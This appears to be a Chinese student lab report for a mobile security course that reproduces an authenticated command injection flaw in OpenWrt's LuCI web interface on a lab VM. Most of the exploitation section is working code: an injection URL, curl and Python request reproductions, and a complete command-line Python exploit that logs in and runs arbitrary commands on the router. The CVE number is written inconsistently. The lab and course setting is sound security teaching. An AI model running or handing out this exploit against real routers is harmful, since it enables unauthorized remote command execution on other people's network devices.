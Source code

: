 # 实验四 移动通信安全概述
- [实验四 移动通信安全概述](#实验四-移动通信安全概述)
  - [实验环境](#实验环境)
  - [实验流程](#实验流程)
    - [CVE-2019-1227漏洞环境安装](#cve-2019-1227漏洞环境安装)
    - [漏洞复现](#漏洞复现)
    - [漏洞利用](#漏洞利用)
      - [代码](#代码)
      - [代码编写](#代码编写)
  - [算是一些感想吧](#算是一些感想吧)
  - [参考](#参考)
## 实验环境

- Kali 2020.3
- WSL2 Ubuntu 20.04 Server
- OpenWrt 15.05.1

## 实验流程

### CVE-2019-1227漏洞环境安装

安装代码与[第一章实验代码](https://github.com/CUCCS/2021-mis-public-LyuLumos/blob/ch0x01/ch0x01/code/setup-vm.sh)相同，仅需更改 `OpenWrt版本号` 与 `下载地址`。使用 `WSL2` 运行。

![](imgs/install19051.png)

其余配置同 [第一章实验OpenWrt环境](https://github.com/CUCCS/2021-mis-public-LyuLumos/tree/ch0x01/ch0x01#openwrt%E8%99%9A%E6%8B%9F%E6%9C%BA%E7%9A%84%E5%AE%89%E8%A3%85)，非实验重点在此略过。

![](imgs/OpenWrt%20-%20LuCI.png)

### 漏洞复现

先使用管理员账号登录 LuCI ，再使用浏览器访问
`
http://192.168.189.189/cgi-bin/luci/;stok=6b45a6138759feb4cff4f0722d2ec0cb/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)
`
触发漏洞，再访问 `http://192.168.189.189/cmd.txt` 获取上一步命令执行的结果。

![](imgs/OpenWrt%20-%20LuCI%20-%20cmdtxt.png)

### 漏洞利用

#### 代码
<!-- ```bash
find -name cmd.txt
rm ./www/cmd.txt
``` -->

通过 Chrome 浏览器开发者工具的 「Copy as curl」 功能，将漏洞复现请求复制为 `curl` 命令 ，然后通过第三方网站 将 `curl` 命令转换为 `Python requests` 代码 ，再稍加改动添加继续访问 `/cmd.txt` 并打印服务器响应，得到示例如下：

（我使用的浏览器为 `Microsoft Edge 90.0.818.62 (官方内部版本) (64 位)`，命令稍有不同，为 「Copy as cURL (bash)」）

```bash
curl 'http://192.168.189.189/cgi-bin/luci/;stok=6b45a6138759feb4cff4f0722d2ec0cb/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)' \
  -H 'Connection: keep-alive' \
  -H 'Cache-Control: max-age=0' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.62' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7' \
  -H 'Cookie: sysauth=c0f9a58c63c6811f85d67df275511138' \
  --compressed \
  --insecure
```

![](imgs/copyCURL.png)

转换后的代码长这样：

```python
import requests

cookies = {
    'sysauth': 'c0f9a58c63c6811f85d67df275511138',
}

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.62',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7',
}

response = requests.get('http://192.168.189.189/cgi-bin/luci/;stok=6b45a6138759feb4cff4f0722d2ec0cb/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)', headers=headers, cookies=cookies, verify=False)
```

#### 关键参数的获取

我们前文中 `stok`、`cookies[sysauth]`等参数都需要再模拟一次登录才能获取。

<!-- 我们使用 `Burp Suite` 进行抓包，使用「Copy as curl command」命令得到结果。 -->

<!-- ![](imgs/loginBurpSuiteSend.png)

```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 192.168.189.189' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Referer: http://192.168.189.189/cgi-bin/luci' -H $'Content-Type: application/x-www-form-urlencoded' -H $'Content-Length: 39' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
    --data-binary $'luci_username=root&luci_password=123456' \
    $'http://192.168.189.189/cgi-bin/luci'
``` -->

我们通过再一次模拟登录，搜索其中的 `method:POST` 信息，以相同的方式复制成 curl代码并在第三方网站中转换。

```python
import requests

headers = {
    'Connection': 'keep-alive',
    'Cache-Control': 'max-age=0',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://192.168.189.189',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.66',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://192.168.189.189/cgi-bin/luci',
    'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7',
}

data = {
  'luci_username': 'root',
  'luci_password': '123456'
}

response = requests.post('http://192.168.189.189/cgi-bin/luci', headers=headers, data=data, verify=False)
```

尽管并没有什么用但还是在 BurpSuite 里面重放了一次登录。

![](imgs/loginBurpSuiteSend.png)

#### 代码编写

代码编写的核心思想就是使代码看起来「工具化」，减少硬编码。

```py
#!/usr/bin/env python

import argparse
import requests
from urllib.parse import urlparse


class CVE_2019_12272:
    def __init__(self, args):
        self.host = args.host
        self.username = args.username
        self.password = args.password
        self.cookies = ''
        self.stok = ''
        self.command = args.command

        self.headers = {
            'Connection': 'keep-alive',
            'Cache-Control': 'max-age=0',
            'Upgrade-Insecure-Requests': '1',
            'Origin': 'http://{host}'.format(host=self.host),
            'Content-Type': 'application/x-www-form-urlencoded',
            'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) '
                          'Chrome/90.0.4430.212 Safari/537.36 Edg/90.0.818.66',
            'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,'
                      'application/signed-exchange;v=b3;q=0.9',
            'Referer': 'http://{host}/cgi-bin/luci'.format(host=self.host),
            'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7',
        }

    def login(self):
        data = {
            'luci_username': '{username}'.format(username=self.username),
            'luci_password': '{passwd}'.format(passwd=self.password)
        }
        response = requests.post(self.headers['Referer'], headers=self.headers, data=data, verify=False,
                                 allow_redirects=False) # 302 意为 Moved Temporarily，必须ban掉重定向
        location = response.headers["Location"]
        self.stok = urlparse(location).params
        self.cookies = response.cookies

    def shell(self):
        url = 'http://{host}/cgi-bin/luci/;{stok}/admin/status/realtime/bandwidth_status/eth0$({cmd}%3ecmd.txt)'.format(
            host=self.host, stok=self.stok, cmd=self.command)
        response = requests.get(url, headers=self.headers, cookies=self.cookies, verify=False)
        if response.status_code >= 400:
            print("Build Shell Failed.")
        #     sys.exit(0)
        # else:
        #     print(response.content)

    def output(self):
        try:
            url = 'http://{host}/cmd.txt'.format(host=self.host)
            response = requests.get(url, verify=False)
            print(response.content.decode())
        except Exception as e:
            print("Error. ", e)


def run():
    parser = argparse.ArgumentParser(description='传入 参数 组')
    requiredNames = parser.add_argument_group('Required Named Arguments')
    requiredNames.add_argument('-a', '--host', help='ip host', required=True)  # -h 被--help占用
    requiredNames.add_argument('-u', '--username', help='username', required=True)
    requiredNames.add_argument('-p', '--password', help='password', required=True)
    requiredNames.add_argument('-c', '--command', help='command', required=True)
    args = parser.parse_args()
    temp = CVE_2019_12272(args)
    temp.login()
    temp.shell()
    temp.output()


if __name__ == '__main__':
    run()

```

在命令行里面调用

```bash
# argparse会把传递给它的选项视作为字符串，所以某些参数不加引号也可以
python main.py -a 192.168.189.189 -u root -p 123456 -c 'ifconfig'
```

![](imgs/answer.png)

## 算是一些感想吧

- CVE-2019-1227 其实漏洞有两个，直接把 `.../bandwidth_status/...` 替换成 `.../wireless_status/...` 可以直接达到对另一个漏洞的利用。
- （其实不用获取stok也行，直接访问 `...cgi-bin/luci/admin/status...` 不影响代码最终输出结果。。。。。）
- 感觉写EXP比用鼠标酷炫多了(๑•̀ㅂ•́)و✧。
- 这次试验其实暴露出很多我个人的问题，比如自己写的时候一直登录不上LuCI，最后看了黄大的视频才解决。还有一个是感觉我写的代码不太优雅（args向self传参有点丑但是又不知道怎么改），python使用还不是很熟练。

## 参考

- [黄大的课程](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100)
- [Python - argparse - 命令行选项、参数和子命令解析器](https://docs.python.org/zh-cn/3/library/argparse.html)